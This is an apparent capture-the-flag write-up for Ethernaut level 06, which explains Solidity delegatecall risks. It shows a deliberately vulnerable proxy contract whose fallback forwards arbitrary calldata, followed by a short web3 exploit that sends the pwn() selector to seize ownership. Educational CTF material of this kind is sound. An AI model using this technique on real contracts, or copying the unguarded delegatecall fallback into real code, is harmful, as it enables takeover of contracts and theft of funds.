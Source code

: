 # Ethernaut 06: Delegation

This is a intro to the proxy pattern, where storage is in the proxy contract and the logic in a delegate contract. Delegatecall needs to take care of several things to be not vulnerable, therefore openzeppelin and hardhat share a couple of contacts to use.

## The Task Intro

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

## The Solution

We want to get owner of the contract. I use the browser console with web3 to solve the task. The hack is to make a transaction to the contract with the encoded function name, the function selector. I generate the selector with this link:

```apache
web3.eth.abi.encodeFunctionSignature("pwn()");
0xdd365b8b
```

After this I send a transaction with the created data and I am the owner of the contract.

```apache
await web3.eth.sendTransaction({to:"0xContractAddress",data: "0xdd365b8b", from: "0xMyAdress"})
```

Done 🎉️. A quick one.
